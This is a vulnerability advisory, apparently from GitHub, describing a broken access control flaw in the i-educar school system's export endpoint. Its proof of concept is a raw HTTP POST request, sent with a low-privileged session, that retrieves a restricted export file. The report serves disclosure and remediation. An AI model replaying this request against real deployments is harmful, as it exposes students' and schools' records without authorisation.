 # Broken Access Control  in `/exportacao-para-o-seb` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/exportacao-para-o-seb` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `POST /exportacao-para-o-seb`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/a2f1c4a8-6bcd-4d7a-a847-828b52d44ce8" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/8e39d5e0-9a02-4eef-a462-e9aae51eba42" />

    
2. Send the following request::

```
POST /exportacao-para-o-seb HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/exportacao-para-o-seb
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

ano=2025&ref_cod_instituicao=1&ref_cod_escola=4
```
    
3. We could observe that a file is attached to the response. This user shouldn't do this request.

<img width="1434" height="538" alt="Pasted image 20250821191236" src="https://github.com/user-attachments/assets/b2146be9-5a52-4317-b24b-9ecb04939b54" />

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
